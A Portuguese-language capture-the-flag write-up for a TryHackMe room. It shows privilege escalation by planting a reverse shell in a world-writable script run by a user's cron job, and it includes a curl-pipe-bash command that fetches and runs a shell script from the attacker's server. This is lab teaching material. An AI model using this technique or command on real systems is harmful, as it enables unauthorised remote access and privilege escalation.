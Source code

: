 # 🛡️ Exploração da Máquina — 0ff3ns!v3 S3cur!ty - Sw4gg3r

## 🔗 Links

- 💻 **Máquina:** [Google Drive - Máquina](https://drive.google.com/file/d/1XsuWUulDDdktnV6fpPgRIH172iASvVmz/view)
- 🔍 **Prova:** [TryHackMe - 0ff3ns!v3 S3cur!ty - Sw4gg3r](https://tryhackme.com/room/0ff3nsv3s3curtysw4gg3r)

---
---

## 🧠 Resumo: Como Escalar Privilégios para o Usuário 'swagger'

### Situação:
- Existe um arquivo chamado `script.sh` com permissão `777`:
  ```txt
  -rwxrwxrwx 1 user-swagger user-swagger 184 Jun 1 2023 script.sh
  ```
- Isso significa que **qualquer usuário pode ler, escrever e executar** esse arquivo.
- O **dono do arquivo é o usuário 'swagger'**, que tem mais privilégios que o usuário atual (`www-data`).

### Problema:
- Estamos logados como `www-data`, um usuário limitado.
- Executar o script manualmente com `www-data` **não eleva os privilégios**, porque o shell reverso retornará com os mesmos direitos de `www-data`.

### Solução:
1. Editar o `script.sh` e **inserir um comando de shell reverso**, por exemplo:
   ```bash
   curl http://192.168.100.168:8000/shell_2.sh | bash
   ```
2. **Esperar o cron job executá-lo automaticamente** (ele roda a cada minuto).
   - Como o script será executado pelo próprio usuário `swagger`, o shell reverso retornará com os privilégios dele.

### Conclusão:
- A escalada de privilégios acontece **não quando você executa o script manualmente**, mas quando o **cron do 'swagger' executa o script que você editou**.

![image](https://github.com/user-attachments/assets/b0322b76-b96a-4585-a5cf-a485ee1183bb)
- Por exemplo nesta imagem eu escalei previlegio do meu propio usuario e consegui, agora so fazer no arq do usuario swagger
---

### Agora vamos alterar o conteudo do arquivo e colocar para ele buscar naquele mesmo servidor python baixar e execuar o shel reverse enquanto escutamos do outro lado 
![image](https://github.com/user-attachments/assets/35d15a91-bf21-42f9-b622-afb6d0e2707c)
- Arquivo alterado com a shell ,agora abrimos outro terminal e escutamos na porta 4444 enquanto esperamos a atualização do comando que nos alteramos para enviar o cmd shell
![image](https://github.com/user-attachments/assets/c1d126d2-8923-42f5-823d-1ac0c41a0378)


- Temos duas shels ativas agora uma do wwwdata que era fraca e nao possuia mt previlegios , e a do swagger que vamos explorar ainda.
![image](https://github.com/user-attachments/assets/26fbd6bc-317c-48f5-9612-7495663d43b5)



# depois de explorar como swagger....

![image](https://github.com/user-attachments/assets/f645cf56-c6ce-40f9-98a1-5fec134f9d25)

conteudo do .backup 
```txt
#!/bin/bash
##### Script em desenvolviment visualisar containers ######
###########################################################
######## verificando containers em execucao ###############
docker ps
a=$(docker ps | cut -d " " -f1 | grep -v "CONTAINER")

######################## Docker Inspect ###################
docker inspect $a
```

# escalando para root
![image](https://github.com/user-attachments/assets/bf139977-d1f1-4cc6-8afa-4439c19f50b9)

# bash -li (upgrade de shell)
![image](https://github.com/user-attachments/assets/56ab04c4-f382-4e91-a7e8-df4e53c5df1e)
agora é só ser feliz.

docker ps / docker inpect

![image](https://github.com/user-attachments/assets/79e11a7e-da0d-4f7b-83c3-8256d4c53299)

---
flag root 
---
![image](https://github.com/user-attachments/assets/e0610da5-e09a-459a-92a7-4b3ffba6163f)
---
![image](https://github.com/user-attachments/assets/edc189b9-5a6e-4a90-9abb-9e85ef9e8758)
---
![image](https://github.com/user-attachments/assets/9b1aa064-ce27-47f1-a1f4-7ce54265b4da)

